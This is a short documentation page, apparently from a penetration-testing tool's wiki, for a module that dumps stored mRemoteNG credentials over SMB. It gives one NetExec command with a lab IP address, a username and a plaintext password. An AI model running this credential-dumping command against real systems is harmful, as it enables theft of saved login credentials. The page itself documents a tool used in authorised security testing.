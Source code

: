 ```yaml
---
description: Dump mRemoteNG stored credentials
---
```


# 🆕 Dump mRemoteNG

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```
nxc smb 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! -M mremoteng
```

